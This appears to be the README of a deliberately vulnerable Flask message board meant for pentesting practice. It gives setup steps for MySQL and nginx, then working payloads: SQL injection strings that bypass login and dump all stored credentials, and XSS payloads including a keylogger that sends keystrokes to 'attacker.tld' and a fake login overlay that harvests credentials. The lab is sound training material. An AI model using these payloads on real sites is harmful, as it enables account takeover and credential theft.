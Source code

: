 
# Unsecure Message Board
This is a intentionally unsecure Flask Application with vulnerablilities that can be used for pentesting. Do the following steps to test this unsecure web app.  

## Installing prerequisites
Assuming you have a Debian-based system, you can install the required packages by running the following command:

1. installing pip3 and venv
```bash
sudo apt update && sudo apt install python3-pip python3-venv
```
2. Install flask and cors
```bash
pip3 install flask flask-cors
```
3. Install Pymysql
```bash
pip3 install pymysql
```
4. Install nginx
```bash
sudo apt install nginx
```



## Database Configuration

### Install and Configure MySQL

1. Install MySQL server:

```bash
sudo apt update && sudo apt install mysql-server
```
2. Configure MySQL:

```bash
sudo mysql_secure_installation
```
3. Log in to MySQL:

```bash
sudo mysql
```
4. Create a new database:
   replace `mydb` with the name of your database and `admin` with the name of your user and `password` with the password of your user.
```sql
CREATE DATABASE mydb;
USE mydb;
CREATE USER 'admin'@'localhost' IDENTIFIED BY 'password';
CREATE TABLE credentials (
    id INT AUTO_INCREMENT PRIMARY KEY,
    user VARCHAR(255) NOT NULL,
    password VARCHAR(255) NOT NULL
);
INSERT INTO credentials (user, password) VALUES ('testuser', 'testpassword');

GRANT ALL PRIVILEGES ON mydb.* TO 'admin'@'localhost';
FLUSH PRIVILEGES;
```
5. Exit MySQL:

```sql
exit;
```

6. set the password as an environment variable, so in the app.py file, you can access it.
```bash
export MYDB_PASS=password
```
## Configuring the Nginx server

1. Create a new configuration file for the web app:
```bash
sudo nano /etc/nginx/sites-available/myflaskapp
```

2. Add the following configuration to the file:
```nginx
server {
    listen 80;
    server_name _;  # wildcard

    location / {
        proxy_pass http://127.0.0.1:5000;  # Point to where Flask is running
        proxy_set_header Host $host;
        proxy_set_header X-Real-IP $remote_addr;
        proxy_set_header X-Forwarded-For $proxy_add_x_forwarded_for;
        proxy_set_header X-Forwarded-Proto $scheme;
    }
}
```
3. Create a symbolic link to the sites-enabled directory:
```bash
sudo ln -s /etc/nginx/sites-available/myflaskapp /etc/nginx/sites-enabled
```
4. Restart the Nginx server:
```bash
sudo systemctl restart nginx
```
5. Check the status of the Nginx server:
```bash
sudo systemctl status nginx
```

## Setting up the Web App

1. Clone the repository from GitHub
2. Navigate to the directory where the repository was cloned and app.py is located
3. Run the following command to start the web app:
```bash
python3 app.py
```
4. Then you should see the following output:
```
❯ python3 app.py
 * Serving Flask app 'app'
 * Debug mode: off
WARNING: This is a development server. Do not use it in a production deployment. Use a production WSGI server instead.
 * Running on http://127.0.0.1:5000
Press CTRL+C to quit
```
5. Open a web browser and navigate to `http://127.0.0.1:5000` to view the web app.

You should see this like the screenshots below:

![Login Page](Documentation/Screenshot%20from%202024-04-29%2022-21-07.png)
![Register Page](Documentation/Screenshot%20from%202024-04-29%2022-21-55.png)


## Exploiting the Web App

### SQL Injection

1. To login as an admin without knowing the password, enter the following payload in the username field and enter ```attack``` in the password field:
``` sql
' union select 1,'admin','attack'; -- '
```


3. To retrieve all the usernames and passwords from the database, enter the following payload in the username field, again enter ```attack``` in the password field:
``` sql
' union select 1, group_concat(concat_ws('|', user, password) separator ', '), 'attack' from credentials -- '
```

### Cross-Site Scripting (XSS)

1. Simple alert box:
``` html
<img src="" onerror=alert('test')>

<iframe src="javascript:alert('test');"></iframe>

<div onmouseover="alert('test')">Hover over me</div>

<a href="#" onclick="alert('test')">Click here</a>
```

2. Keylogger:
``` html
<img src="" onerror="document.addEventListener('keypress', function(e) { fetch('http://attacker.tld?key=' + String.fromCharCode(e.which)); }); this.remove();">
```

3. Fake Website
``` html
<img src="" onerror="(function(){
  document.body.innerHTML = `
    <div style='position: fixed; top: 0; left: 0; width: 100%; height: 100%; background-color: #f0f2f5; display: flex; justify-content: center; align-items: center;'>
      <div style='background-color: #fff; padding: 20px; border-radius: 8px; box-shadow: 0 2px 4px rgba(0,0,0,0.1); width: 360px; text-align: center;'>
        <h2 style='color: #1877f2; font-family: Helvetica, Arial, sans-serif; margin-bottom: 20px;'>Website</h2>
        <form>
          <input type='text' placeholder='Email or Phone Number' style='width: 100%; padding: 10px; margin-bottom: 10px; border: 1px solid #ddd; border-radius: 4px; box-sizing: border-box;'>
          <input type='password' placeholder='Password' style='width: 100%; padding: 10px; margin-bottom: 20px; border: 1px solid #ddd; border-radius: 4px; box-sizing: border-box;'>
          <button type='submit' style='width: 100%; padding: 10px; background-color: #1877f2; color: white; border: none; border-radius: 4px; font-size: 16px; cursor: pointer;'>Log In</button>
        </form>
        <div style='margin-top: 10px;'>
          <a href='#' style='color: #1877f2; font-size: 14px; text-decoration: none;'>Forgotten password?</a>
        </div>
      </div>
    </div>
  `;
}())">
```
